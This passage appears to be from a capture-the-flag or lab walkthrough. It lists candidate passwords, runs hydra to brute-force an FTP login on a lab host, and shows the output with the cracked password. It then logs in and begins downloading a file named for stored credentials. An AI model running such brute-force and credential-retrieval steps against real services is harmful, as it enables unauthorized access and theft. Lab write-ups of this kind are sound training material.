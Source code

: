 ```
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

Let's bruteforce it.
```
hydra -l ftpuser -P ftp_passwd_list.txt ftp://$IP
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-03 00:58:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.0.101:21/
[21][ftp] host: 10.10.0.101   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-03 00:58:48
```

Let's connect, and get the data
```
ftp $IP

Connected to 10.10.0.101.
220 (vsFTPd 3.0.2)
Name (10.10.0.101:kali): ftpuser
331 Please specify the password.
Password: 5iez1wGXKfPKQ
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||38756|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||57074|).
```